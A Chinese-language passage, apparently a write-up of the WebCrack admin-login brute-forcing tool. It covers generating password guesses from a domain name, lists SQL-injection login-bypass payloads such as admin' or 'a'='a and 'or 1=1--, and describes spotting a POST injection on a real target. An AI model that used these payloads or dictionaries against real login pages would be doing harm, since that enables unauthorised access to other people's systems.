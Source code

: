 假如域名是

```
webcrack.yzddmr6.com
```

那么就会生成以下动态字典列表

```
webcrack.yzddmr6.com
yzddmr6.com
webcrack
webcrack123
webcrack888
webcrack666
webcrack123456
yzddmr6
yzddmr6123
yzddmr6888
yzddmr6666
yzddmr6123456
```

假如正则匹配到传来的是一个IP而不是域名的话就会返回一个空列表。

### 万能密码检测

后台的漏洞除了弱口令还有一大部分是出在万能密码上

在WebCrack中也添加了一些常用的payload

```
admin' or 'a'='a
'or'='or'
admin' or '1'='1' or 1=1
')or('a'='a
'or 1=1--
```

但是同时带来个问题会被各大WAF拦截

这时候就可以把WAF拦截的关键字写到检测黑名单里，从而大大减少误报。

**小插曲**

用webcrack检测目标资产进入到了recheck环节

![img](https://cdn.nlark.com/yuque/0/2021/png/1599908/1623900425423-0d643162-422e-4e89-80eb-103b3ebd152c.png)

但是webcrack却提示爆破失败。

手工测试了一下检测出的万能密码

![img](https://cdn.nlark.com/yuque/0/2021/png/1599908/1623900425529-19ed669f-0edb-4855-b9fc-760e9dc32cb7.png)

发现出现了sql错误信息

意识到可能存在后台post注入
